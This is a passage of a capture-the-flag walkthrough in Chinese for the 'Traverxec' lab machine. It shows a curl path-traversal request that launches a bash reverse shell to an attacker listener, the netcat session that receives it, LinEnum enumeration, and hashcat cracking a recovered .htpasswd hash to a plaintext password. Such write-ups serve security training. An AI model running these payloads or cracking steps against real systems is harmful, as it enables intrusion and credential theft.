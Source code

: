     root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.165.
    Ncat: Connection from 10.10.10.165:52998.
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

### 壳

现在我可以运行命令了，我将运行一个命令来获取 shell：

    root@kali# curl -s -X POST 'http://10.10.10.165/.%0d./.%0d./.%0d./bin/sh' -d '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.6/443 0>&1"'
    

该命令只是挂起，但在新的侦听器上：`nc`

    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.165.
    Ncat: Connection from 10.10.10.165:53000.
    bash: cannot set terminal process group (458): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@traverxec:/usr/bin$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

## 私人： www-data –>大卫

### 查找固态混合密钥

在粗略地环顾四周之后，我决定上传并运行[LinEnum](https://github.com/rebootuser/LinEnum)。它指出的一件事是一个文件：`.htpasswd`

    [-] htpasswd found - could contain passwords:
    /var/nostromo/conf/.htpasswd
    david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/  
    

我把它拉回来，开始用：`hashcat`

    root@kali# time hashcat -m 500 htpasswd /usr/share/wordlists/rockyou.txt --username --force
    ...[snip]...
    $1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/:Nowonly4me    
    ...[snip]...
    

在目录中，我开始查看配置文件：`/var/nostromo/conf``nhttpd.conf`

    www-data@traverxec:/var/nostromo/conf$ ls -a 
    .  ..  .htpasswd  mimes  nhttpd.conf
    
    www-data@traverxec:/var/nostromo/conf$ cat nhttpd.conf 
    # MAIN [MANDATORY]
    